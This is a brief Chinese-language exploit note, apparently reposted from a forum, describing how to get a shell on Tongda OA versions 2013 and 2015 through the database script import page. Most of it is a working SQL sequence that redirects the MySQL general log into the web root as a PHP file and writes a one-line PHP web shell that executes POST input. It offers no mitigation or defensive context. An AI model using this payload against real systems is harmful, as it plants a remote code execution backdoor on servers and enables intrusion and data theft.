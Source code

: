 # 通达oa 数据库脚本导⼊getshell

> 原文：[https://www.zhihuifly.com/t/topic/3340](https://www.zhihuifly.com/t/topic/3340)

# 通达oa 数据库脚本导⼊getshell

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

⾥面的database⻚面可以导入sql脚本文件,但是系统过滤了很多,有很多的限制,使⽤mysql日志的方式进行 突破。

```
set global general_log = on;
set global general_log_file = '../webroot/test.php';
select '<?php assert($_POST[a]) ?>';
set global general_log = off; 
```